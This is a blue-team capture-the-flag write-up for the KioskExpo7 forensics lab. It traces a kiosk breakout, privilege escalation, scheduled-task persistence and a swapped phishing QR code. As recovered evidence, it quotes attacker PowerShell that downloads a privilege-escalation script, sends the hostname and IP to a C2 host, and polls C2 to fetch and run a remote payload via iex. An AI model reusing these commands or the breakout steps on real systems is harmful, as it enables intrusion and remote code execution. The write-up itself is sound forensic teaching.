


# KioskExpo7 Lab



# Context

**Lab link**: [https://cyberdefenders.org/blueteam-ctf-challenges/kioskexpo7/](https://cyberdefenders.org/blueteam-ctf-challenges/kioskexpo7/)

**Suggested tools**: CyberChef, DB Browser for SQLite, EZ Tools, DCode, Text Editor

**Tactics**: Initial Access, Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Command and Control, Impact

# Scenario

On October 18, 2025, Wowza Enterprise hosted their first-ever cybersecurity conference. To streamline registration, the IT team configured several laptops in Windows Kiosk mode to display a **QR-code registration page** for attendee self-service.

After the event concluded, the security team detected suspicious outbound connections originating from one of the kiosk devices KioskExpo7. Surveillance footage revealed a suspicious individual spending an unusually long time interacting with that particular terminal.

Welcome to the KioskExpo7 lab! Step into the role of a forensic investigator and dissect a physical access attack that escalated from a kiosk breakout to full system compromise. The threat actor **escaped browser restrictions, escalated privileges, established persistence, and potentially impacted conference attendees**.

You have been provided with a **KAPE triage image from the compromised kiosk**. Your mission is to reconstruct the complete attack timeline, identify the breakout and escalation techniques used, and determine the full scope of the compromise.

# Initial Access

Q1- One of the most well-known kiosk breakout techniques involves abusing browser shortcuts (such as Ctrl+O, Ctrl+S, or Ctrl+P) to invoke File Explorer, then clicking the Help button to spawn an unrestricted browser instance. Determining the URL that triggered this escape is crucial for understanding the breakout vector. What is the full URL that was invoked when the threat actor clicked the Help button, allowing them to open a new browser instance outside kiosk restrictions?

**Answer**: `https://go.microsoft.com/fwlink/?LinkID=2004230`

**Explanation**: Discovered in Edge browser history logs. This is a classic kiosk breakout technique in which an attacker escapes the restricted browser session (kiosk mode, limited screen) by abusing a browser shortcut. It is well documented and appears in assessments of ATMs, airport check-in terminals, library computers, and enterprise locked-down workstations. A pattern breakdown follows.


## **Kiosk Breakout via Browser Help Dialog**

### The Attack Chain

**1. Starting Point — Locked Kiosk**
The user is trapped in a restricted browser session (kiosk mode), where the OS, taskbar, and file system are supposed to be inaccessible.

**2. Abusing a Browser Shortcut**
The attacker triggers a native browser dialog using a keyboard shortcut like:

- `Ctrl+O` → "Open File" dialog
- `Ctrl+S` → "Save As" dialog
- `Ctrl+P` → "Print" dialog

These dialogs are **Windows Shell components**, not just browser UI — they interact directly with the OS file system.

**3. Spawning File Explorer**
From within the dialog, the attacker can navigate the file system, right-click, or use the address bar to reach unintended areas of the OS.

**4. The Help Button Escape**
Many Windows dialogs include a **"?" or "Help" button**. Clicking it opens a help page — and that's where our URL comes in: `https://go.microsoft.com/fwlink/?LinkID=2004230`

This is a Microsoft redirect/forwarding link. When the Help button is clicked, Windows/Edge launches this URL in a new, unrestricted browser window, outside of kiosk mode. That new window is a fully functional browser the attacker can now use freely.

### Why That Specific URL Matters

The `fwlink` URL (`LinkID=2004230`) is significant forensically because:

- It identifies exactly which dialog/help button was clicked (each dialog has a unique `LinkID`)
- It appears in browser history, proxy logs, and EDR telemetry, confirming the breakout vector
- It can be used to attribute the escape to a specific kiosk application or Windows component

### Defensive Takeaways

- Block `go.microsoft.com/fwlink` at the proxy/firewall level in kiosk environments
- Disable keyboard shortcuts (`Ctrl+O`, `Ctrl+S`, etc.) at the application or OS policy level
- Use a dedicated kiosk OS image (like Windows IoT/Kiosk mode with tight AppLocker/WDAC policies)
- Monitor for new browser process spawning from kiosk sessions as an anomaly signal

# Execution

Q2- Windows Assigned Access restricts kiosk users to running a single application. Understanding which executable was configured for the kiosk is essential to identify how the threat actor was initially constrained before the breakout. What is the name of the executable configured to launch at kiosk start?

**Answer**: `msedge.exe`

**Explanation**: Windows Registry startup entries show that Microsoft Edge is set to launch automatically at system startup under the `KioskAdmin` user context. The associated `Run` entry is: `C:\Users\Administrator\Desktop\Start Here\Artifacts\KioskExpo7_Evidence\C\Users\KioskAdmin\NTUSER.DAT: SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.


```powershell
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --no-startup-window --win-session-start
```

Q3- Kiosk applications often use specific command-line arguments to enforce restrictions such as fullscreen mode, disabled navigation, and idle timeouts. Identifying these arguments helps understand what security boundaries the threat actor had to circumvent. What are the full command-line arguments used with the kiosk application?

**Answer**: `--no-first-run --kiosk file:///C:/Users/kiosk/Desktop/index.html --kiosk-idle-timeout-minutes=1440 --edge-kiosk-type=fullscreen`

**Explanation**: As hinted by the previous question, this single-application restriction is enforced by Windows **Assigned Access**, which stores the restricted application parameters in the kiosk account’s user hive (`NTUSER.DAT`), viewable in Registry Explorer.


## **Windows Assigned Access**

**What it is:** A Windows feature that locks a user account to a single app. On login, the designated app launches automatically fullscreen with no desktop, taskbar, or Start menu access. Used legitimately for kiosk deployments; relevant forensically because it defines the security boundary the attacker had to work within or circumvent.

**Where to find it:**

Primary — user hive of the relevant account used to launch the restricted environment (`NTUSER.DAT`):

`Software\Microsoft\Windows\AssignedAccessConfiguration\Profiles\CurrentProfile\AllowedApps\App0`

Key values: `AppId` (executable path), `Arguments` (full command line), `AppType`, `AutoLaunch`

Secondary — if not in user hive, check:

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\AssignedAccess
C:\Windows\ServiceProfiles\LocalService\AppData\Roaming\Microsoft\AssignedAccess\Config.xml`

**Why it matters forensically:** The `Arguments` value contains the full command line used to launch the kiosk app — including flags like `--kiosk`, `--no-first-run`, `--kiosk-idle-timeout-minutes`, and the target URL/file. This defines exactly what restrictions were in place and what the attacker needed to bypass to escape the kiosk environment. Example command line arguments:

```powershell
--no-first-run --kiosk file:///C:/Users/kiosk/Desktop/index.html --kiosk-idle-timeout-minutes=1440 --edge-kiosk-type=fullscreen
```

- `-no-first-run` — skip Edge setup/welcome screen
- `-kiosk` — launch in kiosk mode pointing at `index.html`
- `-kiosk-idle-timeout-minutes=1440` — auto-reset after 24 hours idle
- `-edge-kiosk-type=fullscreen` — true fullscreen, no address bar or UI chrome

Q4- After escaping the kiosk restrictions by launching a new browser instance, the threat actor needed to execute commands on the system. However, the Assigned Access policy restricted which executables the kiosk user could run. Identifying what file the threat actor downloaded reveals how they planned to bypass this restriction. What is the name of the file downloaded by the threat actor after escaping the kiosk?

**Answer**: `cmd.exe`

**Explanation**: By reviewing the `kiosk` user’s Edge download activity in DB Browser, we can identify the downloaded executable. We know it is this user because their hive contains the Assigned Access configuration identified in the previous questions. Chrome absolute time of `13405252104828354` equates to `2025-10-18 09:08:24.8283540 Z` using DCode.


Q5- After downloading the file identified previously, the threat actor likely renamed it to match the allowed executable name to bypass the application restriction policy. Determining the exact timestamp of execution establishes when the threat actor gained command-line access to the system. When did the threat actor execute the downloaded file? (Format: YYYY-MM-DD HH:MM:SS)

**Answer**: `2025-10-18 09:08:35`

**Explanation**: Disk metadata did not show any file renaming. The threat actor likely renamed the downloaded `cmd.exe` to `msedge.exe` to bypass Assigned Access restrictions. Windows Prefetch logs were more useful. After filtering for Edge-related executables and parsing with `PECmd`, they confirmed the execution time. Timeline Explorer is useful here.

```powershell
.\PECmd.exe -d "C:\Users\Administrator\Desktop\Start Here\Artifacts\msedge-pf" --csv "C:\Users\Administrator\Desktop"
```


# Privilege Escalation

Q6- With command-line access established, the threat actor's next objective was privilege escalation. Attackers commonly download enumeration scripts to identify misconfigurations that could elevate their access. Identifying the source of this script helps map the threat actor's infrastructure and TTPs. What is the full URL from which the threat actor downloaded the privilege escalation enumeration script?

**Answer**: `hxxp://file.bsxwwdsdsa.dev/lightpeas.bat`

**Explanation**: Examine the PowerShell `ConsoleHost_history.txt` command history. It contains the commands the attacker typed interactively while compromising the `kiosk` user.


## **PowerShell Command History Artifact**

**What it is:** A plaintext file that records every command typed interactively in a PowerShell session via `PSReadLine`. Persists across sessions and reboots with no logging policy required — it's on by default.

**Path:** `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

**Why it matters forensically:** Unlike event logs, this requires no audit policy to be enabled. Records raw commands as typed — including download URLs, filenames, credentials passed on the command line, and cleanup commands like `del`. Attackers often forget it exists. In this case it revealed the full download URL, staging path, execution, and deletion of a privilege escalation script, plus a `runas` attempt — none of which appeared in event logs or prefetch.

**Caveats:**

- Only captures **interactive** sessions — scripts run non-interactively won't appear
- Can be manually cleared by the attacker (`Clear-History` or deleting the file)
- One file per user profile — check all user accounts
- Max 4096 entries by default, older commands roll off

Q7- After obtaining the local administrator credentials, the threat actor needed to spawn a new process running under the KioskAdmin security context. Identifying the exact command used reveals how the threat actor transitioned from the low-privileged kiosk user to the administrative account. What is the full command executed by the threat actor to start a new process as the `KioskAdmin` user?

**Answer**: `runas /user:KioskAdmin powershell`

**Explanation**: The `runas` command, noted in the previous question’s explanation, shows how the attacker escalated privileges from the standard `kiosk` user to `KioskAdmin`.

```powershell
iwr hxxp://file.bsxwwdsdsa.dev/lightpeas.bat C:\Users\public\l
iwr hxxp://file.bsxwwdsdsa.dev/lightpeas.bat -o C:\Users\public\lp.bat
cd c:\users\public
dir
.\lp.bat
dir
del .\lp.bat
runas /user:KioskAdmin powershell
```

Q8- Running as `KioskAdmin` doesn't automatically grant elevated (high integrity) privileges due to User Account Control (UAC). The threat actor would need to explicitly launch an elevated process and approve the UAC prompt. Determining when this occurred establishes the exact moment full administrative control was achieved. When did the threat actor obtain full administrative privileges by launching an elevated PowerShell process? (Format: YYYY-MM-DD HH:MM:SS)

**Answer**: `2025-10-18 09:24:34`

**Explanation**: The elevated PowerShell execution timestamp was derived by correlating `$MFT` records with Jump List (`customDestinations-ms`) file creation and Security Event ID 4672 (Special Privileges Assigned) for `KioskAdmin` at `09:24:03`.


# Defense Evasion

Q9- What is the name of the registry value that was set to 0 to disable User Account Control (UAC)?

**Answer**: `EnableLUA`

**Explanation**: This registry value was set to 0 to disable UAC. Confirm this in Registry Explorer using the loaded `SOFTWARE` hive: `Microsoft\Windows\CurrentVersion\Policies\System`.


Q10- Before concluding the attack, the threat actor attempted to cover their tracks by tampering with evidence of commands executed under the `KioskAdmin` account. Identifying when this anti-forensic activity occurred helps establish the end of the active intrusion phase. When did the threat actor overwrite the PowerShell command history file to remove evidence of suspicious commands from the `KioskAdmin` account? (Format: YYYY-MM-DD HH:MM:SS)

**Answer**: `2025-10-18 09:43:28`

**Explanation**: By parsing the user journal entry artifact (`$J`), we can determine exactly when the attacker overwrote the `KioskAdmin` PowerShell history file.

```powershell
PS C:\Users\Administrator\Desktop\Start Here\Tools\ZimmermanTools\net6> .\MFTECmd.exe -f "C:\Users\Administrator\Desktop\Start Here\Artifacts\KioskExpo7_Evidence\C\`$Extend\`$J" --csv "C:\Users\Administrator\D
esktop\Start Here"
MFTECmd version 1.2.2.1

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/MFTECmd

Command line: -f C:\Users\Administrator\Desktop\Start Here\Artifacts\KioskExpo7_Evidence\C\$Extend\$J --csv C:\Users\Administrator\Desktop\Start Here

File type: UsnJournal

Processed C:\Users\Administrator\Desktop\Start Here\Artifacts\KioskExpo7_Evidence\C\$Extend\$J in 0.7789 seconds

Usn entries found in C:\Users\Administrator\Desktop\Start Here\Artifacts\KioskExpo7_Evidence\C\$Extend\$J: 327,746
        CSV output will be saved to C:\Users\Administrator\Desktop\Start Here\20260429212532_MFTECmd_$J_Output.csv
```


Q11- Before changing back to the registration page in restricted browser opened by kiosk, the threat actor tried to clear off the track by deleting the downloaded file identified earlier. What is the name of this file in the recycle bin?

**Answer**: `$R0BD893.exe`

**Explanation**: The `$R` file contains the deleted file’s contents. That is why it did not appear in Explorer, but it still existed as an entry in the `$MFT` and `$J`. The `$I` metadata stub was still visible in Explorer, but the file’s data was already gone. Also note `$R0BD893.exe:SmartScreen`, which is an ADS (Alternate Data Stream) from Windows SmartScreen that confirms the file was downloaded from the internet, aligning with the earlier download activity.

## **Windows Recycle Bin Deleted File Metadata and Content**

**What they are:** When a file is deleted to the Recycle Bin, Windows creates two entries with matching random suffixes — `$I` stores metadata (original path, deletion timestamp, file size) and `$R` stores the actual file content.

**Path:**

`C:\$Recycle.Bin\<User-SID>\$I<suffix>.<ext>  ← metadata
C:\$Recycle.Bin\<User-SID>\$R<suffix>.<ext>  ← file content`

**Why it matters forensically:** `$I` reveals the original filename and path even if `$R` has been purged. Check `$MFT` and `$J` for `$R` entries that no longer exist on disk — the file content may be gone but the record of its existence remains. A SmartScreen ADS (`$R<suffix>.exe:SmartScreen`) on the `$R` file confirms the executable was downloaded from the internet.

# Credential Access

Q12- The privilege escalation script likely discovered credentials stored insecurely in the Windows registry. What is the password for the `KioskAdmin` account that the threat actor retrieved from the registry?

**Answer**: `KioskAdmin`

**Explanation**: Autologon was configured and the machine was set to automatically log in as `KioskAdmin` without requiring a password prompt. And the password is just sitting there in plaintext in the registry.


## **Autologon Credentials in Registry**

`Autologon` is a Windows feature that stores credentials in the registry to automatically log in a user at boot without requiring a password prompt.

**Default Location:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`

**Key Values to Check:**

| Value Name | Description |
| --- | --- |
| `AutoAdminLogon` | `1` = autologon enabled |
| `DefaultUserName` | Account configured to autologon |
| `DefaultPassword` | Plaintext password (if set) |
| `DefaultDomainName` | Domain or machine name |
| `LastUsedUsername` | Last account that logged in |

**Forensic Significance:**

- Password stored in **plaintext** — immediately recoverable
- `DisableCAD = 1` removes Ctrl+Alt+Delete requirement, weakening physical security
- Combined with `AutoRestartShell = 1` indicates kiosk lockdown config that may mask abuse
- Confirm account privileges and cross-reference Security log (Event ID 4624) for logon activity

**Artifact Path (offline hive):** `\Windows\System32\config\SOFTWARE`

# Discovery

Q13- One of the scheduled tasks functioned as a beacon, periodically sending system information including the public IP address and hostname to a C2 server. Identifying which public API the script used for IP discovery helps understand the beacon's reconnaissance capabilities. What is the full URL of the public API used by the beacon script to retrieve the system's public IP address?

**Answer**: `hxxps://ipinfo.io/json`

**Explanation**: While parsing the `$MFT` and searching its contents, the script was found embedded in the `$MFT` itself. This suggests `update.ps1` was small enough to be stored as a resident file within the MFT record. You can also view the script content in FTK Imager.

```powershell
$ip=(Invoke-RestMethod -Uri "https://ipinfo.io/json").ip;$h=$env:COMPUTERNAME;iwr "http://bsxwwdsa.dev/ip=$ip&h=$h"
```


## **MFT Resident File Data Recovery**

**What it is:** When a file is small enough (typically under ~700-900 bytes), NTFS stores the file's actual content directly inside the MFT record itself rather than allocating separate disk clusters. This is called a **resident file**. When the file is deleted, the MFT record may persist with the content intact until that record is overwritten.

**Forensic Significance:**

- Small scripts, configs, and text files may survive deletion with full content recoverable
- Critical for recovering deleted malware, scripts, and config files that were never paged to disk
- Content is recoverable even without memory forensics or log artifacts

**When to use:**

- Target file is deleted and not in recycle bin
- File was likely small (scripts, .txt, .ini, .cfg, .xml)
- No hits in PowerShell logs, prefetch, or other artifacts
- You have the `$MFT` in your artifacts

**Tools:**

- MFT Explorer / NTFS Log Tracker (GUI)
- PowerShell brute force:`Get-ChildItem -Recurse -File | Select-String -Pattern "yourstring"`. This works because `Select-String` reads $MFT as a raw file and hits resident data embedded within it.

**Artifact Path:** `\$MFT (root of volume)`

**Real case example:**`update.ps1` at `C:\ProgramData\Maintenance\` was deleted by attacker post-persistence, but its content survived in the MFT as a resident file, revealing the full beacon script including C2 URL and IP discovery method.

# Persistence

Q14- To maintain persistent access to the compromised kiosk, the threat actor created PowerShell scripts that would be executed by scheduled tasks. Identifying where these scripts were stored helps locate the malicious payloads for further analysis. What is the full folder path where the threat actor created the PowerShell persistence scripts?

**Answer**: `C:\ProgramData\Maintenance`

**Explanation**: The PowerShell logs show both the full path where the scripts were created and the scheduled task names.

Q15- The threat actor configured scheduled tasks to execute the persistence scripts, disguising them with legitimate-sounding names to avoid detection. Identifying these task names is essential for remediation and detecting similar compromises on other kiosk devices. What are the names of the two scheduled tasks created by the threat actor?

**Answer**: `KioskStatusCheck`, `KioskUpdate`

**Explanation**: The PowerShell logs show both the full path where the scripts were created and the scheduled task names.


# Command and Control

Q16- The second scheduled task implemented a polling mechanism to receive instructions from the C2 server. When the server responded with a specific trigger value, the script would download and execute additional payloads. What is the filename of the script that would be fetched and executed when the C2 server returned "1"?

**Answer**: `quickupdate.txt`

**Explanation**: Also found in resident `$MFT` records using FTK Imager, the second script implements a polling mechanism that checks the C2 server for the trigger value `“1”`. If present, it downloads and executes `quickupdate.txt` via `iex` (`Invoke-Expression`). 

So now we have the complete picture:

- `alive.ps1` — beacon, sends IP + hostname to C2
- `update.ps1` — polling mechanism, checks C2 for trigger value `"1"`, if true downloads and executes `quickupdate.txt` via `iex` (Invoke-Expression)

That `iex` + remote `.txt` execution is a fileless payload delivery  and the `.txt` is almost certainly PowerShell code, not a text file. And `-useb` (`UseBasicParsing`) to avoid IE engine dependency.

```powershell
$status=(Invoke-RestMethod 'http://bsxwwdsdsa.dev/status').ToString().Trim()
if ($status -eq '1') {iex (iwr -useb 'http://file.bsxwwdsdsa.dev/quickupdate.txt')}
```


# Impact

Q17- With administrative access secured, the threat actor's objective shifted to weaponizing the kiosk against conference attendees. The kiosk displayed a QR code for registration replacing it with a malicious version could redirect victims to a phishing site. Identifying the replacement file and when it was swapped is crucial for determining the window of potential victim exposure. What is the filename of the replacement QR code image, and when was it placed on the desktop? (Format: filename,YYYY-MM-DD HH:MM:SS)

**Answer**: `qr.png`, `2025-10-18 09:30:14`

**Explanation**: Since the existing QR code file is the original, safe one, we parse the `$J` journal entries to identify the file rename history and confirm the answer.


Q18- The new QR code redirects conference participants to a phishing site instead of the legitimate registration page. What is the URL of the phishing page that is now displayed?

**Answer**: `hxxps://registerr.wowzaconf.dev/register.php`

**Explanation**: The QR code is already on the kiosk user desktop, Simply decode it online to view the target URL.


# Forensic Timeline

